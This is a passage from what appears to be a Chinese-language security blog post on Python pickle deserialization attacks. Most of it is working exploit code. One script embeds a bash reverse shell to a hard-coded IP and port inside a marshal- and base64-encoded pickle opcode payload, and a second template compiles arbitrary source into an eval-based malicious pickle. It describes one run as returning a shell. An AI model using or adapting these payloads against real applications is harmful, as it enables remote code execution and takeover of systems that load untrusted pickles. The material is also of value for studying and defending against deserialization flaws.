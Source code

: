 用pickle执行一下那串payload看看效果

![image-20210809094819276](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809094819276.png)

成功返回了斐波那契数列的结果和一个shell

原理都是一样的，也可以用Marshal+b64的方式反弹shell（用模板生成opcode

```python
import marshal
import base64

def foo():
    import os
    a = 'bash -c "bash -i >& /dev/tcp/192.168.31.29/8426 0>&1"'
    # print 'hold on...'
    os.system(a)
print """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))
```

![image-20210810015119794](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210810015119794.png)

————或者下面这个模板也可以达到上面的效果（执行代码 而不包含类和函数）（来源：[pickle_compiler.py](https://gist.github.com/freddyb/3360650#file-pickle_compiler-py)

```python
try:
    import cPickle as pickle
except ImportError:
    import pickle
from sys import argv

def picklecompiler(sourcefile):
    sourcecode = file(sourcefile).read()
    return "c__builtin__\neval\n(c__builtin__\ncompile\n(%sS'<payload>'\nS'exec'\ntRtR." % (pickle.dumps( sourcecode )[:-4],)

def usage():
    print '''usage: python %s filename''' % argv[0]

if __name__ == "__main__":
    if len(argv) == 2:
        print picklecompiler(argv[1])
    else:
        usage()
```
